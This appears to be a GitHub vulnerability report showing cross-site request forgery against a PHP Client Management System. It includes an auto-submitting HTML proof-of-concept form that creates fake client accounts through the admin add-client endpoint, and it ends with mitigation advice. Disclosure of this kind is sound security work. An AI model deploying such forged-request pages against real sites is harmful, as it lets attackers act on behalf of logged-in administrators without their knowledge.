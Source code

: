 # CSRF Vulnerability: Creating Fake Users in Client Management System

## Introduction
Cross-Site Request Forgery (CSRF) is an attack where an authenticated user is tricked into submitting a malicious request to a web application. This can lead to unauthorized actions being performed on behalf of the user. In this report, we demonstrate how CSRF can be used to create fake users in a **Client Management System** and suggest mitigation strategies.

## Environment Setup
- Locally hosted **Client Management System** using **MySQL** and **PHP**.
- Functionality for adding clients and their services.

## Steps to Exploit CSRF

### 1. Login as Admin
Using provided credentials, log in to the Client Management System.

![Login as admin](https://github.com/user-attachments/assets/a52b86de-a945-424a-89fc-ef538af11ac0)

### 2. Add a New Client
- Select **Add Client** option.
- Enter the required client details.

![Adding new client](https://github.com/user-attachments/assets/f4589658-3bc8-485b-beec-f58280c63c91)
![Enter the client details](https://github.com/user-attachments/assets/a0a89e2d-743a-4bf0-887d-24ed8c9629d5)

### 3. Capture the Client Adding Request
1. Navigate to the **Save** button.
2. Set up **Burp Suite** to intercept requests.
3. Click **Save** and capture the HTTP request before it reaches the server.
4. Send the captured request to the **Repeater** tab for analysis.

![Capturing the request in Burp](https://github.com/user-attachments/assets/2c3978f6-8518-4ca1-89c3-cc7a22a7cebe)
![Send to repeater](https://github.com/user-attachments/assets/be30ff6c-4dc5-4f18-af61-11bd81c526d1)

## CSRF Exploit Code
Below is the **HTML PoC** for CSRF attack:

```html
<html>
  <body>
    <form action="http://localhost/clientms/admin/add-client.php" method="POST">
      <input type="hidden" name="accounttype" value="Active Account" />
      <input type="hidden" name="cname" value="moulimurugan" />
      <input type="hidden" name="comname" value="kppr" />
      <input type="hidden" name="address" value="vijayamangalam" />
      <input type="hidden" name="city" value="erode" />
      <input type="hidden" name="state" value="tamil" />
      <input type="hidden" name="zcode" value="638026" />
      <input type="hidden" name="wphnumber" value="968560710" />
      <input type="hidden" name="cellphnumber" value="6931052465" />
      <input type="hidden" name="ophnumber" value="9638560410" />
      <input type="hidden" name="email" value="moulimurugan@gmail.com" />
      <input type="hidden" name="password" value="moulimurugan" />
      <input type="hidden" name="websiteadd" value="clientmsdb" />
      <input type="hidden" name="notes" value="Nil" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Creating Fake Users
- Modify existing details to create **fake users**.

![Adding fake user 1](https://github.com/user-attachments/assets/4b45fb41-3c40-4a6b-9dcf-525fc02eceaa)
![Adding fake user 2](https://github.com/user-attachments/assets/feb6cc10-f6b7-4276-ba5f-41e026f3fba2)

### Testing the CSRF PoC
1. Open the generated **CSRF PoC link** in a browser.
2. The webpage opens with a **Submit** button.
3. Click **Submit**, and the request executes, creating fake users.

![Open PoC in browser](https://github.com/user-attachments/assets/68b10332-3cc8-4d9c-8ccf-46af830ad9ba)
![Hit submit request](https://github.com/user-attachments/assets/59d29d18-7911-4f2b-b115-38946be339f8)

## Confirming Fake Clients Creation
- After submission, fake clients appear in the admin dashboard.

![Fake clients created](https://github.com/user-attachments/assets/ce96ec9b-4f7d-470c-89ed-a63bb79a341f)
![Multiple users created](https://github.com/user-attachments/assets/878be82c-87de-4201-aa4f-c08ed785fc20)

## Mitigation Strategies
To prevent CSRF attacks, implement the following measures:

1. **CSRF Tokens**
   - Use **anti-CSRF tokens** in all form submissions and verify them on the server-side.
2. **SameSite Cookies**
   - Set session cookies with `SameSite=Strict` or `SameSite=Lax` attributes.
3. **Referer and Origin Header Validation**
   - Validate the **Referer** and **Origin** headers before processing requests .
4. **User Authentication Checks**
   - Require **CAPTCHAs** for critical actions to prevent automated attacks.
5. **Restrict HTTP Methods**
   - Use `POST` for sensitive actions and **avoid processing GET requests** with side effects.

## Conclusion
This report demonstrates how CSRF vulnerabilities can be exploited to create unauthorized accounts in a **Client Management System**. Implementing the suggested mitigation strategies will help secure the application against such attacks.
